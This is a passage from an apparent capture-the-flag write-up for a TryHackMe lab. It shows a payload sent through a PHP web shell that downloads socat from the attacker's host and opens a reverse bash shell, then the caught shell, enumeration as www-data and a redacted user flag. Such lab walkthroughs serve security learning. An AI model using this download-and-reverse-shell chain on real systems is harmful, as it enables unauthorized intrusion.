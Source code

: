 ```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.20|17:58:56(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:59:57(HKT)]
└> curl http://coldvvars.thm:8080/dev/webshell.php --get --data-urlencode "cmd=wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:59:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443      
2023/01/20 17:59:19 socat[86628] N opening character device "/dev/pts/1" for reading and writing
2023/01/20 17:59:19 socat[86628] N listening on AF=2 0.0.0.0:443
                                                                2023/01/20 18:00:38 socat[86628] N accepting connection from AF=2 10.10.207.207:57658 on AF=2 10.9.0.253:443
                                                                 2023/01/20 18:00:38 socat[86628] N starting data transfer loop with FDs [5,5] and [7,7]
                                             www-data@incognito:/var/www/html/dev$ 
www-data@incognito:/var/www/html/dev$ export TERM=xterm-256color
www-data@incognito:/var/www/html/dev$ stty rows 22 columns 107
www-data@incognito:/var/www/html/dev$ ^C
www-data@incognito:/var/www/html/dev$ whoami;hostname;id;ip a
www-data
incognito
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:10:08:a6:9f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.10.207.207/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3197sec preferred_lft 3197sec
    inet6 fe80::10:8ff:fea6:9f51/64 scope link 
       valid_lft forever preferred_lft forever
www-data@incognito:/var/www/html/dev$ 
```

I'm user `www-data`!

**user.txt:**
```shell
www-data@incognito:/var/www/html/dev$ cat /home/ArthurMorgan/user.txt 
{Redacted}
```
